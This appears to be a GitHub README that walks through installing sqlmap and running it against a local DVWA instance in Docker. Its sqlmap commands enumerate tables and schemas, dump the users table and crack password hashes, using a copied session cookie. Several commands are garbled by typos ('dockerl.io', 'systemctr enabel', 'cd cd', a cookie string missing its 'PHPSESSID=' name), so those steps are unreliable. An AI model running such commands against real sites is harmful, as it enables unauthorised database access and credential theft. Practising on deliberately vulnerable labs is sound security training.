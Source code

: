 # Installation SQLmap

Preferably, you can download sqlmap by cloning the Git repository:

```zsh
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```
#  Docker Installation 
``` 
sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker
```
# create a virtual environment using DVWA 
```
 docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
then open 127.0.0.1 using google 

```
username : admin
password: password
```

creat database 
<img src="./PNGs/Screenshot from 2024-05-09 14-21-51.png">

go to SQL injection 
<img src="./PNGs/Screenshot from 2024-05-09 14-33-51.png>

## SQL Attack
* write any input here

<img src="./PNGs/Screenshot from 2024-05-09 14-28-15.png">

copy the url and press F12 go to applicateion to cookies
and save the PHPSESSID and security level 

<img src="./PNGs/2.png>

using sqlmap to see all the tables in this web page using this 
* ##you need to change the url and PHPSESSID

```
cd cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
using sqlmap to see all tables schema using this comand 
```
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
using sqlmap to see schema for specific table using this for users table
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```

if u need to see the table content and crack the password hashes using this comand 
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```